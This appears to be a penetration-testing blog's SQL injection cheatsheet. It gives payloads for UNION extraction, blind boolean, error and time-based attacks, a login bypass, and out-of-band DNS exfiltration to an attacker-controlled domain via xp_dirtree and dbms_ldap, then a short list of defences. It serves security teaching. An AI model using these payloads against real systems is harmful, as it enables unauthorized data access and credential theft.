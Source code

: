 ```yaml
---
title: "SQLi attack"
subtitle: ""
draft: false
author: "Hato0"
description: "SQL injection cheatsheet"
Last Update: <time datetime="{{ .Page.Lastmod.Format "Mon Jan 10 17:13:38 2020 -0700" }}" class="text-muted">  {{ $.Page.Lastmod.Format "January 02, 2006" }} </time>
Date: 2022-06-20

tags: ["web", "penetest", "sqli"]
categories: ["Penetest - Web"]

hiddenFromHomePage: true
hiddenFromSearch: false
twemoji: false
lightgallery: false
ruby: false
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false
toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
share:
  enable: true
comment:
  enable: true
---
```

# SQL injection 

A SQL injection (SQLi) is a type of security exploit in which the attacker adds Structured Query Language (SQL) code to a Web form input box in order to gain access to unauthorized resources or make changes to sensitive data. 


An SQL query is a request for some action to be performed on a database. When executed correctly, a SQL injection can expose intellectual property, the personal information of customers, administrative credentials or private business details.

## SQLi Basics

Here will be some basics informations to get when you have a successfull injection

- SQL injection attack, querying the database type and version on Oracle
	- Depending on the DB you can get the version as follow:
		- Microsoft, MySQL
		{{< highlight sql "lineNos=false" >}}SELECT @@version{{< /highlight >}}
		- Oracle
		{{< highlight sql "lineNos=false" >}}SELECT * FROM v$version{{< /highlight >}}
		- PostgreSQL
		{{< highlight sql "lineNos=false" >}}SELECT version(){{< /highlight >}}
			
- SQL injection attack, listing the database contents 
	- Non-Oracle DB 
	    {{< highlight sql "lineNos=false" >}}select * from information\_schema.tables{{< /highlight >}}

	- Oracle DB
	    {{< highlight sql "lineNos=false" >}}select * from all_tables{{< /highlight >}}

## Union SQL attack 

These attacks are perform to extract data using the same amount of row than the initial result could display. For this attack, working conditions are:
-   The individual queries must return the same number of columns.
-   The data types in each column must be compatible between the individual queries

You can have those following examples : 

- Determining the number of columns returned by the query :
    - Using `Union` :
        {{< highlight sql "lineNos=false" >}}' union select NULL--{{< /highlight >}} 
        > Increasing number of NULL value until values are actually return
    - Using `Order` :
        {{< highlight sql "lineNos=false" >}}' order by 1--{{< /highlight >}}
        > Increasing the int value until an error occured
		
		
- Finding a column containing text
    {{< highlight sql "lineNos=false" >}}union select 'a', NULL, NULL, ...--{{< /highlight >}}
    > Add as many null as you need to match the number of columns
		
- Retrieving data from other tables
    {{< highlight sql "lineNos=false" >}}union select CHAMP1, CHAMP2, .... from TABLE_NAME--{{< /highlight >}}
    > Again add as many null value as needed
		
		
- Retrieving multiple values in a single column
    {{< highlight sql "lineNos=false" >}}union select CHAMP1 || 'SEPERATOR' || CHAMP2 .... from TABLE_NAME--{{< /highlight >}}
    > Very usefull when you only have the capacity to extract data from a uniq column
		
		

## Blind SQL attack 

- Conditional responses

	The goal here is to exfiltrate char by char fields using for exemple a query looking like this one : 
	{{< highlight sql "lineNos=false" >}}' and (select substring(password,1,1) from users where username='administrator')='a{{< /highlight >}}

- Conditional errors

	The goal here is to check errors based on a True query and on a false one. 
    
    Here is an example:
    - True statement :
        {{< highlight sql "lineNos=false" >}}' and (select case when (1=2) then 1/0 else 'a' end)='a{{< /highlight >}}

    - False statement :
        {{< highlight sql "lineNos=false" >}}' and (select case when (1=1) then 1/0 else 'a' end)='a{{< /highlight >}}
	
	
- Time delays

    This one is the favorite of everyone to quickly check for blind SQL.  
    
    The goal is to insert a sleep function (once or twice to confirm it) and check if there is any latence in the anwser given by the server. 
    If there is one, and if this latence is proportionate to your sleep value, then you know that you've got SQLi. 
    
    Examples : 
	
    - Using `sleep`:
        {{< highlight sql "lineNos=false" >}}';sleep(10)--{{< /highlight >}}
	- Using `waitfor` : 
        {{< highlight sql "lineNos=false" >}}'; if (1=1) waitfor delay '0:0:5'--{{< /highlight >}}
	
- Time delays and information retrieval

	Using the techique right above, we can exfiltrate data based on the time the query take to give a result. We will stick with conditional tested char by char. 

    Here is an example : 
    {{< highlight sql "lineNos=false" >}}
    '; if (select count(username) from users where username = 'administrator' and substring(password, 1, 1) > 'm') = 1 waitfor delay '0:0:5'--{{< /highlight >}}


- Out-of-band (OAST)

    This type of SQLi is perform against asynchronous system. 
    
    The goal here is to trigger out-of-band network. We usually use DNS protocol because that's simplier and available on any system. 
    
    To exfiltrate data we will use conditionals techniques again and more precisely a time delays equivalent. 
    Basicly we will redirect to our controlled domain on True or False condition. 
    
    For example we can perform those :
    - For Microsoft SQL Server	
        - Basic test:
            {{< highlight sql "lineNos=false" >}}'; exec master..xp\_dirtree '//MYDOMAIN/a'--{{< /highlight >}}

		- Data on subdomain:
            {{< highlight sql "lineNos=false" >}}declare @q varchar(1024); set @q = 'master..xp\_dirtree '\\\\' + substring(convert(varchar(max), convert(varbinary(max), user\_name()), 1),1,60) + '.MYDOMAIN\\foo'; exec(@q){{< /highlight >}}

    - MYSQL
        Check for the LOAD\_FILE, sys\_eval, http\_get, .. functions
	   
	- ORACLE
        {{< highlight sql "lineNos=false" >}}select dbms_ldap.init((select version from v$instance)||'.'||(select user from 		dual)||'.'||(select name from 	v$database)||'.'|'MYDOMAIN',80) from 	dual;{{< /highlight >}}


- SQL injection vulnerability allowing login bypass
	* Very simple : `username'--`

## How to prevent them 

If a SQL injection attack is successfully carried out, the damage could be expensive in terms of resources and customer trust. That is why detecting this type of attack in a timely manner is important. Web application firewalls (WAF) are the most common tool used to filter out SQLi attacks. WAFs are based on a library of updated attack signatures and can be configured to flag malicious SQL queries.

In order to prevent a SQL injection attack from occurring in the first place, developers can follow these practices:

-   Avoid SQL statements that allow user input, choose prepared statements and parameterized queries instead.
-   Perform input validation, or sanitization, for user-provided arguments.
-   Do not leave sensitive data in plaintext format, or use encryption.
-   Limit database permissions, privileges and capabilities to the bare minimum.
-   Keep databases updated on security patches.
-   Routinely test the security measures of applications that rely on databases.
-   Remove the display of database error messages to the users.